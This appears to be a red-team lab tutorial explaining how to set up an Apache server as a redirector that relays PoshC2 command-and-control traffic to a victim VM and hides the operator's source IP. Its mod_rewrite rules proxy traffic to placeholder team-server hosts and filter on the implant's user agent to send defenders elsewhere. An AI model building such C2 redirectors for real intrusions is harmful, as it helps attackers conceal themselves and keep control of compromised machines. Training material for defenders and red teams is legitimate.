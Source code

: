 # Setting up proxy 

When running actions as an actor you always want to avoid giving away where you are coming from or your source ip. Typically this is done with a proxy also sometimes known as a LP (listening post), in this case it will be an ubuntu server running apache. Your current setup is as follows: 

	parrot-OS <> Victim VM

What we will be doing with the Ubuntu server is routing our C2 traffic through it so it appears it as though it is coming from the Ubuntu server and the the Parrot vm.

	Parrot <> Ubuntu <> Victim VM 

Lets install any Ubuntu server ISO from the interwebs [here](https://ubuntu.com/download/server).

# Configureing Apache on Ubuntu

Setting up your Ubuntu server should be fairly similar to how you set up your Parrot VM considering they are both linux based devices. 

Once your IPs are set and your Ubuntu server can route two both your Parrot and your Victim machine, lets set up apache.

```bash 
service apache status 
```

Depending on your setup apache/apache2 might be inactive(dead) by default. To start it we will run the following

```bash 
sudo service apache/apache2 start
```

You can verify by running the same status command 

```bash 
service apache status 
```
> **NOTE:** If you ever have issues starting your apache server to read the error codes. You could run into issues depending on the services you might already have running if they are using ports or services needed for apache.
  
Now if you open a browser of your choice in your Ubuntu server or attack box and browse to your Ubuntus IP you should be met with an apache2 default page describing how to configure your new apache server, read up because I dont want to retype all that. 

Apache configuring tree: 

	/etc/apache2/
	|-- apache2.conf
	|       `--  ports.conf
	|-- mods-enabled
	|       |-- *.load
	|       `-- *.conf
	|-- conf-enabled
	|       `-- *.conf
	|-- sites-enabled
	|       `-- *.conf

Now if you want to be a kool kid like Duck and change your web page to idk say a picture of a duck, we have to navigate to our web root at /var/www/html and change the content inside of our index.html file. We also have to get our duck.jpg file and drop it in are web root. 

```html
<!DOCTYPE html>
<html>
<body>

<h1>Its a Duck</h1>
<img src="duck.jpg" alt="W3Schools.com" width="104" height="142">

</body>
</html>
```

# Configure Proxy 

Now lets move to configuring our proxy for our C2 coms.

First we will navigate to /etc/apache2/site-enabled and view our `000-default.conf`, this is where we configure our setting for our currently hosted sites. Inside will looking something like this:

```apache 
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

What we want to add is an apache module called `mod_proxy`, we can do that with 2 new lines. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
Now that we have `mod_rewite` enabled we want to use the rewrite rules to create our filters. 

The first argument is a variable describing a characteristic of the request, the second argument is a regular expression that must match the variable, and a third optional argument is a list of flags that modify how the match is evaluated.

```html 
RewriteRule Pattern Substitution [flag]
```

Lets add our proxy rule to allow our C2 coms through our new proxy. 

```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

	AllowOverride All
   	RewriteEngine On

	RewriteRule ^.*$ http://BADIPHERE%{REQUEST_URI} [P]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

With the above rules you should now have a proxy setup to push your C2 coms through the Ubuntu server. Keep in mind you now have to reconfigure your Poshc2 to have host coms be your Ubuntu server. You can get real fancy with mod_rewrite and add more rules/conditions to allow only C2 coms through and redirect anything else by filtering by your useragent string set in your poshc2 `config.yml` as well as your uri request for files being hosted, example code bellow as well as resources links on how to do fancy things below. 

```apache
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```